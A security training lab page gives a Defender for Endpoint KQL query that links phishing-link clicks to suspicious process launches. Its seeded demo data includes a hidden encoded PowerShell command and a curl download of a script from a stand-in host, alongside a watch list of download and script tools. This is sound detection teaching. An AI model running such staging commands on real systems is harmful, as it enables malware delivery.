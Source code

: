 ```yaml
---
title: '03: Review execution timelines in Defender for Endpoint'
layout: default
nav_order: 2
parent: 'Exercise 05: Analyze and Map a Multi-Stage Intrusion'
---
```


## Task 03: Review execution timelines in Defender for Endpoint

1. Copy the following KQL into the query window, then select **Run query**.

    <details markdown='block'>
    <summary>
    Expand here to copy KQL-3.txt
    </summary>

    ```KQL-3.txt-wrap
    // ---- USE REAL MDO CLICKS + DEMO PROCESSES (fixed) ----
    let lookback    = 7d;
    let windowAfter = 2h;
    let suspicious  = dynamic(["powershell.exe","wscript.exe","mshta.exe","rundll32.exe","regsvr32.exe","cmd.exe","curl.exe","wget.exe","bitsadmin.exe"]);
    let demoBase    = ago(3d);

    // Real clicks (if present)
    let RealClicks =
        UrlClickEvents
        | where Timestamp > ago(lookback)
        | where ActionType in ("ClickAllowed","ClickBlocked") or toint(IsClickedThrough) == 1
        | project AccountUpn, ClickTime=Timestamp, Url, ReportId, NetworkMessageId;

    // --- FIXED: demo clicks use offset timespan, then extend to datetime ---
    let DemoClicksSeed =
    datatable (offset:timespan, AccountUpn:string, Url:string, ReportId:long, NetworkMessageId:string)
    [
      5m,  "alex.johnson@contoso.com", "http://contoso.example/billing", 777001, "netmsg-001",
      10m, "alex.johnson@contoso.com", "http://contoso.example/login",   777002, "netmsg-002",
      12m, "bruce.wayne@contoso.com",  "http://contoso.example/script",  777003, "netmsg-003"
    ];
    let DemoClicks =
        DemoClicksSeed
        | extend ClickTime = demoBase + offset
        | project AccountUpn, ClickTime, Url, ReportId, NetworkMessageId;

    // Prefer real clicks; include demo to guarantee results
    let Clicks = union isfuzzy=true RealClicks, DemoClicks;

    // --- FIXED: demo processes use offset timespan, then extend to datetime ---
    let DemoProcsSeed =
    datatable (offset:timespan, DeviceName:string, FileName:string, ProcessCommandLine:string,
               InitiatingProcessFileName:string, InitiatingProcessCommandLine:string,
               ActorUpn:string, ReportId:long)
    [
      25m, "SEA-WKS-001", "powershell.exe", "powershell -nop -w hidden -enc AQA...",
           "outlook.exe", "outlook.exe /embedding", "alex.johnson@contoso.com", 870001,

      30m, "SEA-WKS-001", "cmd.exe", "cmd /c curl http://contoso.example/a.ps1 -o a.ps1",
           "powershell.exe", "powershell -nop -w hidden", "alex.johnson@contoso.com", 870002
    ];
    let Procs =
        DemoProcsSeed
        | extend Timestamp = demoBase + offset
        | where FileName in~ (suspicious)
        | project Timestamp, DeviceName, FileName, ProcessCommandLine,
                  InitiatingProcessFileName, InitiatingProcessCommandLine,
                  ActorUpn, ReportId;

    // Correlate: suspicious process within 2h after a user's click
    Procs
    | join kind=inner (Clicks | project AccountUpn, ClickTime) on $left.ActorUpn == $right.AccountUpn
    | where Timestamp between (ClickTime .. ClickTime + windowAfter)
    | project Timestamp, DeviceName, FileName, ProcessCommandLine,
              InitiatingProcessFileName, InitiatingProcessCommandLine,
              AccountUpn=ActorUpn, ReportId
    | order by Timestamp asc

    ```
    </details>

    ![Intrusion-4.png](../../media/Intrusion-4.png)

    {: .note }
    > Common signals include:
    > - `outlook.exe` → `powershell.exe`
    > - `cmd /c curl ...` or `rundll32`, `mshta`  
    > These strongly suggest post-phish staging or execution.

    {: .highlight }
    > If multiple devices tie to the same user within the timeline, consider possible **lateral movement**.


